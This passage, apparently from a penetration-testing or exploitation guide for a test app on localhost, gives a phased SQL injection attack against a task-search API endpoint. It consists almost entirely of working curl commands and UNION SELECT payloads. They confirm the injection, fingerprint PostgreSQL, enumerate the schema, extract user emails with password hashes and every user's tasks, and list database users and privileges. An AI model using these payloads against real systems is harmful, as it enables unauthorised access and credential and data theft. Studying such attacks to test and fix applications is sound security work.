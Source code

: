 2. **Confirm SQL Injection**
   ```bash
   # Test for SQL syntax error
   curl "http://localhost:3000/api/tasks/search?query=test' OR '1'='1"
   ```

3. **Determine Database Type**
   ```bash
   # PostgreSQL version detection
   curl "http://localhost:3000/api/tasks/search?query=test' UNION SELECT version()--"
   ```

### Phase 2: Information Gathering

1. **Enumerate Database Schema**
   ```sql
   -- List all tables
   ' UNION SELECT table_name FROM information_schema.tables--
   
   -- List columns for users table
   ' UNION SELECT column_name FROM information_schema.columns WHERE table_name='users'--
   ```

2. **Count Records**
   ```sql
   -- Count users
   ' UNION SELECT COUNT(*) FROM users--
   ```

### Phase 3: Data Extraction

1. **Extract User Data**
   ```sql
   -- Get all user emails and password hashes
   ' UNION SELECT email, password_hash FROM users--
   
   -- Get specific user data
   ' UNION SELECT first_name, last_name, email FROM users WHERE id=1--
   ```

2. **Extract Sensitive Information**
   ```sql
   -- Get all tasks from all users
   ' UNION SELECT title, description FROM tasks--
   ```

### Phase 4: Advanced Exploitation

1. **Privilege Escalation**
   ```sql
   -- Check database user privileges
   ' UNION SELECT current_user, session_user--
   
   -- List database users
   ' UNION SELECT usename FROM pg_user--
   ```
